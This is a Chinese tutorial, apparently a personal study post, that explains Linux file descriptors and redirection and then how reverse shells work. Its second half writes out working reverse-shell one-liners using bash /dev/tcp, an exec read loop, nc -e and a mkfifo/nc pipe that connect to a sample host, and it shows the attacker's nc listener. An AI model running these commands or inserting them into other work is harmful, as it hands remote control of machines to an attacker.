反弹Shell
文件描述符
原文地址：https://xz.aliyun.com/t/2548
Linux一切皆文件
linux文件描述符：可以理解为linux跟踪打开文件，而分配的一个数字，这个数字有点类似c语言操作文件时候的句柄，通过句柄就可以实现文件的读写操作。
简单来说就好像指针，Linux通过这个指针（文件描述符）进行文件的读写
Linux启动的时候会默认打开三个文件描述符，分别是：
标准输入standard input 0 （默认设备键盘） stdin 0
标准输出standard output 1（默认设备显示器） stdout 1
错误输出：error output 2（默认设备显示器） stderr 2

之前我一直不明白为什么是stdin 0 stdout 1 stderr 2而不是stdin 0 stdout 0 stderr 0
刚才回头又看了一遍明白了，**stdin、stdout、stderr只是一个标识，用来告诉我们这是标准输入、标准输出还是错误输出**
而后面的 0、1、2才是真正的文件描述符，/dev/tty是该描述符指向的文件
一条shell命令，都会继承其父进程的文件描述符，因此所有的shell命令，都会默认有三个文件描述符。
在命令执行前，会先按默认的情况绑定文件描述符
有时存在例如
ls > 1.txt的情况，需要将输出写入文件或者其他设备，就会进行一次重定向（1）输入重定向符 < <<**
**（2）输出重定向符 > >>其他重定向都由这两种衍生
/dev/tty
如果当前进程有控制终端(Controlling Terminal)的话，那么/dev/tty就是当前进程的控制终端的设备特殊文件

bash执行过程
注意：
1.bash 在执行一条指令的时候，首先会检查命令中存不存在重定向的符号，如果存在那么首先将文件描述符重定向（输入输出操作都是依赖文件描述符实现的，重定向输入输出本质上就是重定向文件描述符），然后在把重定向去掉，执行指令
2.如果指令中存在多个重定向，那么不要随便改变顺序，因为重定向是从左向右解析的，改变顺序可能会带来完全不同的结果
3.< 是对标准输入 0 重定向 ，> 是对标准输出 1 重定向，重定向就是针对文件描述符的操作
举例
cat < file.txt // 将file.txt的内容输入到cat执行，相当于cat file.txt
或者
cat 0< file.txt //将file.txt指向文件描述符0(标准输入 stdin 0)
语法 [n]<xxx 或者 [n]>xxx n和>、<之间不空格

解析器解析到 “<” 以后会先处理重定向，将标准输入重定向到file，之后cat再从标准输入读取指令的时候，由于标准输入已经重定向到了file ，于是cat就从file中读取指令。
相当于文件描述符是一个指针，指向不同的地址，就会产生不同的输入

举例：非法指向 stdout 1, 报错

指向正确
输出重定向
格式： &> word >& word
将标准输出与标准错误输出都定向到word代表的文件（以写的方式打开），两种格式意义完全相同，这种格式完全等价于 > word 2>&1 (2>&1 是将标准错误输出复制到标准输出，&是为了区分文件1和文件描述符1）
& 符在这里的作用就相当于一个默认的操作，无论进行的操作是0、1或者2，都会进行一次输出
这样一般用来进行文件描述符之间的操作，或者将bash报错内容输入进文件中


文件描述符的复制
格式： [n]<&[m] / [n]>&[m]（字符间不能有空格）
& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符
举例

先执行重定向，再从左向右执行命令
顺序位置的区别
(1)cmd > file 2>&1
cmd 命令执行出错，然后错误信息传递给了文件file，本应由file报错，但file的标准错误2又指向了标准输出1，因为重定向执行优先级高于报错输出，所以报错传递给了标准输出1，输入进文件file中

相当于cmd 2>&1 > file 2>&1
(2)cmd 2>&1 >file
cmd命令执行出错，错误信息直接由标准错误2传入标准输出1，重定向优于错误输出，于是报错先指向了文件file，而文件file没有指向，默认由stderr 2处理，所以错误被打印，没有写入file中
相当于：cmd 2>&1 >file >&2

所以在将(2)改写为cmd 2>&1 > file 2>&1 效果同（1）一致
图画的总觉得少了些什么，可我又说不明白，简单理解就是
将cmd执行返回的内容逐层的给指向的文件，最后由标准输出 stdout 1 输出到文件或者由stderr 2 输出到 终端
其他的，我也不懂，要么自己悟，要么扒底层吧
exec 绑定重定向
exec有两种用法
exec命令，代替shell
格式：exec [n] </> file/[n]
shell的内建命令exec将并不启动新的shell，而是用要被执行命令替换当前的shell进程，并且将老进程的环境清理掉，而且exec命令后的其它命令将不再执行。
因此，如果你在一个shell里面，执行exec ls那么，当列出了当前目录后，这个shell就自己退出了，因为这个shell进程已被替换为仅仅执行ls命令的一个进程，执行结束自然也就退出了。为了避免这个影响我们的使用，一般将exec命令放到一个shell脚本里面，用主脚本调用这个脚本，调用点处可以用bash a.sh，（a.sh就是存放该命令的脚本），这样会为a.sh建立一个sub shell去执行，当执行到exec后，该子脚本进程就被替换成了相应的exec的命令。
参考文章：https://blog.csdn.net/qq_31186123/article/details/82190776

执行exec后将替换原shell进程，导致原shell进程退出

写入脚本执行，脚本会重新创建一个shell，exec只会关闭脚本创建的shell

exec执行后会关闭当前的shell ，exec后的命令无法执行
exec文件重定向
当exec命令来对文件描述符操作的时候，就不会替换shell，而且操作完成后，还会继续执行接下来的命令。
格式举例： [n]<>word
例如：

exec 3<> file
首先应该明确，文件描述符有且只有0、1、2，不存在3
exec 3<>file 即可以理解未创建了一个文件描述符3，将3指向文件file的stdin 0 和 stdout 1
ls >&3
将ls执行的内容传递给上面创建的文件描述符
上一步描述符3指向了file,所以这就是将ls命令得到的内容指向了file
cat file
查看file内容
相当于：exec 3> file >&1;exec 3< file <&0

刚才的操作结束后fd 目录下多了文件描述符3

3中包含我们操作的信息

指向也正确
exec 3<&- 用于删除自定义的文件描述符，使用时注意不要删了系统定义的0、1、2、255
255是一个小技巧,bash用于在重定向时保留这些副本
例：
echo foo 1>/dev/null 2>/dev/null >/proc/$$/fd/255 输出： foo
另外,这个命令还可以作为find命令的一个选项,如下所示:
(1)在当前目录下(包含子目录)，查找所有txt文件并找出含有字符串”bin”的行
find ./ -name “.txt” -exec grep “bin” {} ;
(2)在当前目录下(包含子目录)，删除所有txt文件
find ./ -name “.txt” -exec rm {} ;
反弹shell概述
原文地址：https://xz.aliyun.com/t/2549
reverse shell，就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
通常用于被控端因防火墙受限、权限不足、端口被占用等情形

攻击原理
攻击方
nc -lvp 2333 监控攻击方自己服务器的2333端口
被攻击方
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1
将bash -i 的执行结果传给ip为 xxx.xxx.xxx.xxx 的服务器，
0>&1将攻击机的stdin 0指向被攻击机，执行后指回stdout 1
然而前面的bash -i >& 实际上已经将stdout 1指向攻击机，于是执行结果在攻击机显示
-i 产生交互式shell
注：Linux一切皆文件，执行结果传给/dev/tcp/xxx.xxx.xxx.xxx/2333
件相当于发送给了 xxx.xxx.xxx.xxx:2333



/dev/tcp|udp/ip/port 这个文件是特别特殊的，实际上可以将其看成一个设备（Linux下一切皆文件），其实如果你访问这个文件的位置他是不存在的
在一方监听了端口的情况，通过向这个文件些内容，可以直接发送给监听的服务器，实现socket通信

java网络编程就有讲这方面内容


先知里告诉我这条语句
bash -i > /dev/tcp/192.168.146.129/2333 0>&1执行的命令任然会在被攻击机显示让我懵了回，因为我没这情况，研究了会才发现，我上面写的是
bash -i &>，先知是bash -i >有什么区别？
bash &>将stdout 1和stderr 2混合起来都指向攻击机，无论被攻击机执行的shell正确还是错误，都会因为&>指回攻击机
bash >没有&，所以Linux默认bash 1>这样做只有stdout 1指向了攻击机，被攻击机stdout 2的执行任然回显在被攻击机上，没有送达攻击机虽说这条“有问题的payload”我就没测试过去
所以先知又给了几条payload
bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1 //加了 2>&1 bash -i >& /dev/tcp/192.168.146.129/2333 0>&1 //先指向stdout 1和stderr 2，在交给攻击机
常见的反弹shell方法(摘自先知)
其他的没什么好说的，主要说说这几句
exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
nc -e /bin/sh 192.168.146.129 2333
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
第一句
exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
这句分为两个部分
第一部分
exec 5<>/dev/tcp/192.168.146.129/2333;
这段很好理解，创建一个文件描述符5 , 指向/dev/tcp/192.168.146.129/2333
使用<>既将文件描述符的内容输入攻击者服务器，有将攻击者指令交给文件描述符 5
第二部分
cat <&5
也没什么可说的，将描述符5的stdout 1 和 stderr 2混合交给cat 打印
|while read line;do $line >&5 2>&1;done
这里是重点
这里应该这样看
//假设一个情景，攻击者发送了一个ls命令
exec 5<>/dev/tcp/192.168.146.129/2333
/*ls 被发送到文件描述符5*/
cat <&5
/*cat 执行描述符5*/
while read line
/*读取管道符前cat <&5的结果，每读取一行，就将一行内容赋值给line
* 也就是读到了ls的内容
*/
do
$line >&5 2>&1
/*do...done循环
*将读到的内容传给描述符5 ，并将stderr 2指向stdout 1
*/
done
//描述符5中的内容通过exec 5> /dev/...发给攻击机，形成循环
第二句
nc -e /bin/sh 192.168.146.129 2333
nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）
第三句
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
在第二句无法成功时（没有nc -e 时，使用这句）
mkfifo命令的基础用法
管道：将前面的每一个进程的输出，直接作为下一个进程的输入，管道符为|
常见管道命令
- cut、grep、sort、wc、uniq
- tee：重定向，既能在屏幕输出，又能保存到文件中
- tr、col、join、paste、expand、split
mkfifo则可以创建命名管道
例如：mkfifo pipe2
pipe2就是一个命名管道。
作用：
在第一个终端执行
ls > pipe2
在第二个终端执行
cat < pipe2
很明确，和重定向很像
那么这就很好理解了
rm /tmp/f; // 先删除一下可能存在的自定义的管道
mkfifo /tmp/f; // 创建一个管道符/tmp/f[创建到tmp目录是因为tmp目录有足够的权限]
cat /tmp/f|/bin/sh -i 2>&1 // 用cat读取管道的内容，交给/bin/sh【即bash】,stderr 2 >&1
|nc 192.168.146.129 2333 // 将结果传递给攻击机
>/tmp/f //将攻击机输出传递给管道，形成循环